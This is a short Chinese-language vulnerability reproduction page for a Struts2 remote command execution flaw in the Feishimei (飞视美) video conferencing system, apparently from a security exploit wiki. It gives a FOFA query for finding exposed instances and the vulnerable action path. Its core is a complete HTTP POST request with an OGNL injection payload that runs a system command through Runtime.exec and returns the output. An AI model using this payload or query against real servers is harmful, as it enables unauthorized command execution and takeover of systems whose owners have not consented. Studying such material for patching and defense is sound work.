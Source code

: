 # 飞视美 视频会议系统 Struts2 远程命令执行漏洞

## 漏洞描述

飞视美 视频会议系统 Struts2组件存在远程命令执行漏洞，通过漏洞攻击者可执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>飞视美 视频会议系统</a-checkbox></br>

## FOFA

<a-checkbox checked>app="飞视美-视频会议系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630910934893-ef391d6e-93b4-4596-b185-93727d3b5e21.png)

存在漏洞的路径为

```python
/confinfoaction!showallConfinfos.action
```

发送请求包

```python
POST /confinfoaction!showallConfinfos.action HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 669
Host: 
Connection: Keep-Alive

('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'ipconfig\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

![img](../../../.vuepress/public/img/1630911232289-4b99e8bb-61d9-4f5a-9829-4c4ba96075ef.png)